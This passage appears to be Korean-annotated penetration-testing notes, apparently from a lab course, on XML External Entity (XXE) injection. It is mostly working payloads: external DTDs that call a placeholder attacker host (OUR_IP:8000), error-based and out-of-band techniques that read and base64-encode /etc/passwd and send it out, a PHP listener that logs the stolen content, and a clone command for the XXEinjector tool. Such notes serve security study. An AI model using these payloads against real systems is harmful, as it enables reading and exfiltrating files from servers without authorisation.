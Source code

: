 ```xml
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

### Error Based XXE
- DTD 파일
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## Blind Data Exfiltration

### Out-of-band(OOB) Data Exfiltration
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
```
$ vi index.php # here we write the above PHP code
$ php -S 0.0.0.0:8000
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

### Automated OOB Exfiltration
```git clone https://github.com/enjoiz/XXEinjector.git```
```
```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```